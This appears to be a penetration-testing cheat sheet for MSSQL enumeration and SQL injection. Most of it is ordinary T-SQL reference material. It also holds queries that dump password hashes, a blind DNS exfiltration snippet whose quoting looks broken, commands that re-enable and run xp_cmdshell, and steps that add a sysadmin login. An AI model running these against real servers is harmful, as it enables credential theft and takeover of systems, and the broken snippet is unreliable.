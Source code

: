```yaml
---
title: MSSQL Injection
tags: [recon, exploit, webvuln, sql, payload, injection]
tools: ['myssql']
notes: "Cheatsheet for MSSQL CLI interface and injection attacks"
---
```


# MSSQL Injection

---

## References

- [Oracle](http://pentestmonkey.net/blog/oracle-sql-injection-cheat-sheet/)
- [MSSQL](http://pentestmonkey.net/blog/mssql-sql-injection-cheat-sheet/)
- [MySQL](http://pentestmonkey.net/blog/mysql-sql-injection-cheat-sheet/)
- [PostgreSQL](http://pentestmonkey.net/blog/postgres-sql-injection-cheat-sheet/)
- [Ingres](http://pentestmonkey.net/blog/ingres-sql-injection-cheat-sheet/)
- [DB2](http://pentestmonkey.net/blog/db2-sql-injection-cheat-sheet/)
- [Informix](http://pentestmonkey.net/blog/informix-sql-injection-cheat-sheet/)
- [MS Access](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)

---

## Enumeration

### Version
```sql
SELECT @@version;
```

### Current User
```sql
SELECT user_name();
SELECT system_user;
SELECT user;
SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID;
```

### List Users
```sql
SELECT name FROM master..syslogins;
```

### Password Hashes (Privileged)
```sql
-- MSSQL 2000
SELECT name, password FROM master..sysxlogins;
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins;

-- MSSQL 2005+
SELECT name, password_hash FROM master.sys.sql_logins;
SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) FROM master.sys.sql_logins;
```

### Crack Hashes
MSSQL 2000 & 2005 use SHA1 — try:  
https://labs.portcullis.co.uk/application/phrasen-drescher/

### Current Database
```sql
SELECT DB_NAME();
```

### List Databases
```sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); -- Where N = 0, 1, 2...
```

### List Tables
```sql
SELECT name FROM master..sysobjects WHERE xtype = 'U'; -- tables
SELECT name FROM master..sysobjects WHERE xtype = 'V'; -- views
```

### List Columns (in table)
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'mytable');
```

### Find Tables by Column Name
```sql
SELECT sysobjects.name AS tablename, syscolumns.name AS columnname
FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id
WHERE sysobjects.xtype = 'U' AND syscolumns.name LIKE '%PASSWORD%';
```

### Hostname/IP
```sql
SELECT HOST_NAME();
```

---

## Privilege Info

### Check Current Permissions
```sql
SELECT permission_name FROM fn_my_permissions(NULL, 'DATABASE');
SELECT permission_name FROM fn_my_permissions(NULL, 'SERVER');
SELECT permission_name FROM fn_my_permissions('master..syslogins', 'OBJECT');
SELECT permission_name FROM fn_my_permissions('sa', 'USER');
```

### Check Server Roles
```sql
SELECT is_srvrolemember('sysadmin');
SELECT is_srvrolemember('dbcreator');
-- repeat for bulkadmin, diskadmin, etc.
```

### List Users With Specific Roles
```sql
SELECT name FROM master..syslogins WHERE sysadmin = 1;
SELECT name FROM master..syslogins WHERE serveradmin = 1;
-- repeat for other roles...
```

---

## Functions and Tricks

### Select Nth Row
```sql
SELECT TOP 1 name
FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) sq
ORDER BY name DESC;
```

### Select Nth Char
```sql
SELECT SUBSTRING('abcd', 3, 1); -- returns 'c'
```

### Bitwise Ops
```sql
SELECT 6 & 2; -- returns 2
SELECT 6 & 1; -- returns 0
```

### ASCII/Char Conversion
```sql
SELECT CHAR(0x41); -- returns 'A'
SELECT ASCII('A'); -- returns 65
```

### Casting
```sql
SELECT CAST('1' AS int);
SELECT CAST(1 AS char);
```

### String Concat / Avoiding Quotes
```sql
SELECT 'A' + 'B'; -- AB
SELECT CHAR(65) + CHAR(66); -- AB
```

### Conditionals
```sql
IF (1=1) SELECT 1 ELSE SELECT 2;
SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END;
```

---

## Delays & Exfil

### Time Delay
```sql
WAITFOR DELAY '0:0:5';
```

### Make DNS Requests (Blind exfil)
```sql
DECLARE @host VARCHAR(800);
SELECT @host = name FROM master..syslogins;
EXEC('master..xp_getfiledetails "\' + @host + 'c$\boot.ini"');
```

---

## System-Level Access (Privileged)

### Command Execution
```sql
EXEC xp_cmdshell 'net user';

-- If disabled (2005+):
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### Local File Access
```sql
CREATE TABLE mydata (line VARCHAR(8000));
BULK INSERT mydata FROM 'C:\boot.ini';
DROP TABLE mydata;
```

### Create Users / Grant Privileges
```sql
EXEC sp_addlogin 'user', 'pass';
EXEC sp_addsrvrolemember 'user', 'sysadmin';
```

### Drop User
```sql
EXEC sp_droplogin 'user';
```

### Locate DB Files
```sql
EXEC sp_helpdb master;
EXEC sp_helpdb pubs;
```

---

## Default/System DBs
- northwind
- model
- msdb
- pubs *(Not on SQL 2005)*
- tempdb